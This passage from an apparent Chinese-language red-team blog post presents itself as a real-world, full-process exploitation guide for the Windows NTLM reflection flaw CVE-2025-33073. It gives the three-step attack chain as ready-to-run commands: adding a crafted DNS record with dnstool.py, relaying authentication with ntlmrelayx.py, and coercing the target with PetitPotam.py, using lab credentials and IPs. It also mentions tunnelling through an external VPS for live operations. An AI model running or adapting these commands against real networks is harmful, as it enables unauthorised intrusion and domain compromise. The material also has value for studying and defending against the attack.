 #  内网横行：大杀器之实战场景下的 CVE-2025-33073 全流程利用指南 | 附利用工具集  
原创 薛定的饿猫  饿猫的小黑屋   2025-06-25 01:26  
  
**前言**  
****  
  
  
参考资料  
  
在上一篇文章中，对   
CVE-2025-33073  
 的漏洞原理进行了比较深入的分析，同时在靶场环境中进行了漏洞复现。出于漏洞原理和红队行动规范的原因， CVE-2025-33073 在实际利用的过程中比靶场会更加麻烦一些。本文将基于实战利用的场景对 CVE-2025-33073 进行全流程的攻击梳理。  
1. 靶场复现中存在的 Windows 端口占用问题在实战中没有太大影响，因为不可避免的需要走隧道进行利用，那么外网的 VPS 机器直接选择 Linux 即可。如果确实有需要用到 Windows 进行利用的情况，按照章节   
0x04  
 中不出网的部分进行转发即可。为了帮助小白更好的理解，文章最后也会对其单独进行讲解。  
  
1. 为了使流程更加清晰，文中按照步骤搭建不同的隧道，实战情况下可以使用 frp 等能转发 SMB 的工具进行转发，简化利用流程并减少文件上传的数量。  
  
如果想深入了解此漏洞，建议阅读前文。  
> 内网横行：CVE-2025-33073漏洞分析与攻击复现  
  
> 薛定的饿猫，公众号：饿猫的小黑屋[内网横行：CVE-2025-33073漏洞分析与攻击复现](http://mp.weixin.qq.com/s?__biz=Mzg4NDU4OTQ1NA==&mid=2247484712&idx=1&sn=02ff86815b2cb114cbfcea520ff2db51&chksm=cfb493c9f8c31adfec2590226974b21f93d10095abfd157d19e38dd2c460a04e7a8301931b90#rd)  
  
  
  
0x01 最简攻击流程梳理  
  
  
参考资料  
  
先回顾一下正常攻击的流程，主要分为三个步骤：  
  
1.   
向 DNS 服务器（域控）添加 DNS 记录。  
  
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130（攻击机IP） --action modify 192.168.214.134（域控IP）
```  
  
  
2.   
开启监听，用于接收目标服务器发起的认证请求并反射回给目标服务器  
。  
  
```
python ntlmrelayx.py -t 192.168.214.135（目标机IP） -smb2support
```  
  
  
3.   
强制目标服务器向指定的主机发起 NTLM 认证  
。  
  
```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135（目标机IP）
```  
  